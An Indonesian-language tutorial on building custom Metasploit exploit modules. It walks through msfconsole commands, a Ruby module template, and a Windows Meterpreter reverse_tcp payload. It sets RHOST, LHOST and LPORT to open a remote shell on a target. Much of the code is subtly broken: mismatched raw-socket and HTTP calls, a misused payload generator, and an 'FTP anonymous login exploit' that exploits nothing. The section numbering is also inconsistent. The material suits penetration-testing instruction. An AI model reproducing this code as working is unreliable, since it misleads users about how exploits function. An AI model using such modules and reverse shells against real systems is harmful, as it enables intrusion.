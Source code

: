 # Membuat Modul Exploit Sendiri di Metasploit

## A. Pengantar Modul Exploit di Metasploit

Metasploit Framework adalah kerangka kerja eksploitasi yang sangat kuat yang memungkinkan para peretas (ethical hacking) untuk melakukan eksploitasi dan pengujian penetrasi terhadap sistem. Modul eksploitasi adalah komponen yang digunakan untuk mengeksploitasi kelemahan atau kerentanannya.

Modul eksploitasi biasanya terdiri dari:
- **Exploit**: Kode yang mengeksploitasi kerentanannya.
- **Payload**: Kode yang dijalankan setelah eksploitasi berhasil.
- **Encoder**: Untuk mengaburkan payload agar sulit dideteksi.

## 2. Persiapan dan Struktur Metasploit

Untuk membuat modul eksploitasi di Metasploit, kamu harus mengerti struktur dasarnya terlebih dahulu. Lokasi Modul di Metasploit:

Semua modul Metasploit, termasuk eksploitasi, terletak di direktori:

```
/usr/share/metasploit-framework/modules/exploits/
```

Struktur dasar direktori sebuah modul adalah:

```
modules/
 ├── exploits/
 │    ├── multi/
 │    ├── unix/
 │    ├── windows/
 │    └── ...
 └── auxiliary/
      ├── scanner/
      └── ...
```

Modul eksploitasi biasanya berada di dalam direktori `exploits/` dengan subdirektori berdasarkan platform, seperti `windows/`, `unix/`, atau `multi/`.

## C. Langkah-langkah Membuat Modul Exploit

### 1. Menyiapkan Lingkungan Pengembangan

**1. Jalankan Metasploit:**

```
msfconsole
```

2. Temukan modul eksploitasi yang ada untuk referensi.

Misalnya, jika ingin melihat eksploitasi Windows:

```
search type:exploit platform:windows
```

3. Navigasi ke direktori tempat kamu akan menyimpan modul baru:

```
cd /usr/share/metasploit-framework/modules/exploits/
```

### 2. Membuat Struktur Modul Baru**

1. Buat file Ruby baru untuk modul eksploitasi.

Misalnya:

```
nano /usr/share/metasploit-framework/modules/exploits/custom/my_exploit.rb
```

2. Tulis Struktur Dasar Modul:

Berikut adalah template untuk modul eksploitasi:

```rb
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'My Custom Exploit',
      'Description'    => %q{
        This is a custom exploit module.
      },
      'Author'         => ['Your Name'],
      'License'        => MSF_LICENSE,
      'References'     =>
        [],
      'Payload'        =>
        {'Space' => 1024, 'BadChars' => "\x00"},
      'Platform'       => ['linux', 'win', 'osx'],
      'Arch'           => ARCH_X86,
      'Targets'        =>
        [
          ['Automatic', { 'Arch' => ARCH_X86, 'Platform' => 'win' }]
        ],
      'DefaultTarget'  => 0))
    
    register_options([Opt::RPORT(80)], self.class)
  end

  def exploit
    print_status("Exploiting target #{rhost}:#{rport}")
    
    # Payload execution
    connect
    send_request_raw(payload)
    handler
  end
end
```

Penjelasan Struktur Modul:
- `initialize`: Digunakan untuk mendefinisikan informasi dasar modul, seperti nama, deskripsi, penulis, target, dan payload.
- `exploit`: Merupakan fungsi utama yang melakukan eksploitasi. Fungsi ini menghubungkan ke target dan mengirimkan payload.

### 3. Menambahkan Fungsionalitas

Kamu dapat menambahkan berbagai jenis eksploitasi, seperti:

- Buffer Overflow: Menyuntikkan payload ke dalam buffer yang rentan.
- Remote Code Execution (RCE): Mengeksekusi kode pada target yang rentan.
- Command Injection: Menyuntikkan perintah ke sistem target.

Contoh fungsi untuk mengirimkan payload pada target:

```rb
def exploit
  connect
  print_status("Sending exploit...")
  send_request_raw(payload)
  handler
end
```

### 4. Menggunakan Payload Custom

Jika kamu ingin menggunakan payload custom, kamu bisa mengonfigurasi payload sesuai dengan tujuanmu.

Contoh menggunakan payload Meterpreter untuk Windows:

```
payload = 'windows/meterpreter/reverse_tcp'
```

Penggunaan payload dalam fungsi:

```rb
def exploit
  print_status("Sending Meterpreter payload...")
  payload = generate_payload('windows/meterpreter/reverse_tcp')
  send_request_raw(payload)
  handler
end
```

### 5. Menguji Modul Exploit

Setelah membuat modul, kamu bisa menguji modulnya menggunakan Metasploit.

**1. Periksa apakah modul sudah terdaftar:**

```
msfconsole
search my_exploit
```

**2. Gunakan modul baru:**

```
use exploits/custom/my_exploit
```

**3. Konfigurasi opsi (seperti target, RHOST, RPORT):**

```
set RHOST 192.168.1.100
set RPORT 80
set LHOST 192.168.1.10
set LPORT 4444
```

**4. Jalankan eksploitasi:**

```
exploit
```

Jika modulmu berhasil, kamu akan mendapatkan shell atau meterpreter session.

## 6. Debugging dan Penyempurnaan

Jika ada masalah dengan modul eksploitasi:

- Periksa `log` dan `output` Metasploit.
- Gunakan `print_status` untuk debug:

  ```
  print_status("Payload sent successfully")
  ```

- Pastikan payload dan koneksi target sudah sesuai dengan yang ditargetkan.

### 7. Contoh Modul Exploit Lengkap

Modul exploit untuk mengakses FTP Anonymous Login:

```rb
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'FTP Anonymous Login Exploit',
      'Description'    => 'Exploits an FTP service that allows anonymous login.',
      'Author'         => 'Your Name',
      'License'        => MSF_LICENSE,
      'References'     => [],
      'Platform'       => ['unix'],
      'Targets'        =>
        [
          ['FTP Anonymous', { 'Arch' => ARCH_X86, 'Platform' => 'unix' }]
        ],
      'Payload'        =>
        { 'Space' => 1024, 'BadChars' => "\x00" },
      'DefaultTarget'  => 0))

    register_options([Opt::RPORT(21)], self.class)
  end

  def exploit
    connect
    print_status("Attempting anonymous FTP login...")
    send_request_raw(payload)
    handler
  end
end
```
